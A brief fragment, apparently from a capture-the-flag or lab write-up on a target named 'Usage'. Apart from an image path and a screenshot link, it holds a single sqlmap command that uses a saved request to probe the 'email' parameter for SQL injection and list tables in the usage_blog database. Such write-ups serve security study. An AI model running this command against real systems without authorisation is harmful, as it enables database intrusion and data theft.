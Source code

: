 ![Image](/assets/img/post/usage/Untitled5.png)

```bash
sqlmap -r -request.txt --level 5 --risk 3 -p email --batch -D usage_blog --tables --threads 10
```
